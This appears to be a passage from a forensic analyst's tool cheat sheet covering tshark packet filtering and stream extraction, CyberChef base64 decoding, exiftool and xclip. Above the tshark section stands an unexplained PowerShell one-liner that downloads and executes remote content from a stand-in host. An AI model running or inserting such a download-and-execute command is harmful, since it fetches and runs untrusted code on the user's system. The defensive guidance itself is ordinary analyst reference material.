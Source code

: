 ```IEX(New-Object System.Net.WebClient).downloadstring(‘http://example.com/foo.exe’)```
This is the command line based tool of Wireshark.

**Convert pcapng to pcap**: The following command will convert the pcapng to pcap;

`tshark -F pcap -r <input pcapng file> -w <output pcap file>`

**Display filters**: The display filters that you would use for Wireshark can be used exactly as is in tshark.

`tshark -n -r example.pcap -Y ‘http.host contains “examplesite.com”’`

**Extract files**: From the above we may find a packet and then extract something from that stream, first let’s assume the frame number is `29099`. Get the stream number out;

`tshark -n -r example.pcap -Y ‘frame.number==29099’ -T fields -e tcp.stream`

Then using the stream number (assume `465`) extract the data out and save the file;

`tshark -n -r example.pcap -Y ‘tcp.stream==465’ -T fields -e tcp.segment_data > data_extract.txt`

Remove all the newlines and colon separator characters;

`cat data_extract. txt | awk '{printf “%s”, $1}' | tr -d ':' > base64_hex.txt`

Convert this into ASCII equivalent;

`cat base64_hex.txt | perl -nE ‘print pack(“H*”, $_);’ > http_post.txt`

Then remove all the none base64 encoded data and use cyber chef to decode it. 

<a name="cyber-chef"></a>
### Cyber Chef 
[*back to table of contents*](#b2t)

This is an excellent online resource and can be used for analysis in the following ways.

**Decode base64**: Malicious attackers will often encode their payloads in base64 for obfuscation. When an analyst comes across this then the following link will be useful to put it into human readable format, <https://gchq.github.io/CyberChef/#recipe=From_Base64('A-Za-z0-9%2B/%3D',true)Remove_null_bytes()>

The recipe is first decoding it and then removing the null bytes, making it easier to add into your notes or even insert into a script to test. 

<a name="exiftool"></a>
### exiftool 
[*back to table of contents*](#b2t)

***LINUX-SIFT***

This is a Linux based tool that can read and write meta information in files. Used by,

`exiftool <file>`

<a name="xclip"></a>
### xclip 
[*back to table of contents*](#b2t)

***LINUX-SIFT***

Very handy tool to get text data onto your clipboard from Linux. I usually will use this with the `cat` command and will work when remoting to another system and you have an interactive shell. This is not a native tool. 
```